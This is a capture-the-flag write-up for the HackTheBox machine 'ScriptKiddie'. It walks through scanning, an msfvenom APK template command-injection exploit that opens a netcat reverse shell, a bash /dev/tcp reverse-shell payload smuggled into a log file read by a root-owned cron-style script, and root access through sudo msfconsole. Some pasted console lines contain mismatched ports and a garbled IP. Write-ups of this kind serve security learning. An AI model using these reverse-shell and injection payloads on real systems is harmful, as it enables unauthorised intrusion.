

# ScriptKiddie - HackTheBox
Linux, 20 Base Points, Easy

## Machine


  
## ScriptKiddie Solution

### User

So let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nmap -sC -sV -oA nmap/ScriptKiddie 10.10.10.226
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-30 00:08 IDT
Nmap scan report for 10.10.10.226
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.52 second

```

Let's observe port ```5000```:


We can upload venom payloads.

Let's use [Metasploit Framework msfvenom APK Template Command Injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/) when using a crafted APK file as an Android payload template.

So let's create ```apk``` file with command injection using ```Metasploit Framework```
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $msfconsole
                             
       =[ metasploit v6.0.16-dev                          ]
+ -- --=[ 2074 exploits - 1124 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Display the Framework log using the log command, learn more with help log

msf6 > This module exploits a command injection vulnerability in Metasploit Framework's msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK fileInterrupt: use the 'exit' command to quit
msf6 > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set payload cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
[+] msf.apk stored at /home/user/.msf4/local/msf.apk
```

So we have ```apk``` file with code injection, Now, because we used ```cmd/unix/reverse_netcat``` we need to listen using ```nc``` on port ```4444```:
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
```

Upload the ```apk``` and click on "generate":



And we get shell:
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.226: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 59932
whoami
kid
/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
kid@scriptkiddie:~$ cat user.txt
cat user.txt
c67272625a2096ab9a8d0b6017e55255
kid@scriptkiddie:~$
```

### Root

By running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we can found the script ```scanlosers.sh``` on ```/home/pwn```:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

We can get command injection by writing the following into ```/home/kid/logs/hackers``` file:
```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1' #"  >> /home/kid/logs/hackers
```

Listen before to port 1234:
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nc -lvp 4444
listening on [any] 1234 ...

```

Write the payload into ```home/kid/logs/hackers``` file:
```console
kid@scriptkiddie:/home/pwn$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.141234 0>&1' #"  >> /home/kid/logs/hackers
<0.10.14.23/1234 0>&1' #"  >> /home/kid/logs/hackers
kid@scriptkiddie:/home/pwn$ 
```

And we get ```pwn``` user shell:
```console
┌─[evyatar@parrot]─[/hackthebox/ScriptKiddie]
└──╼ $nc -lvp 4444
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 44410
bash: cannot set terminal process group (863): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
```

By running ```sudo -l``` we can see the follow:
```console
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$
```

So if we can use ```msfconsole``` with root privilages It's mean we can also get a root shell, Let's try it:
```console
pwn@scriptkiddie:~$ sudo msfconsole
sudo msfconsole
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Enable verbose logging with set VERBOSE true

msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt
6b7e82e1ec5820f4ca3996bb0e292b30
```

And we get root flag.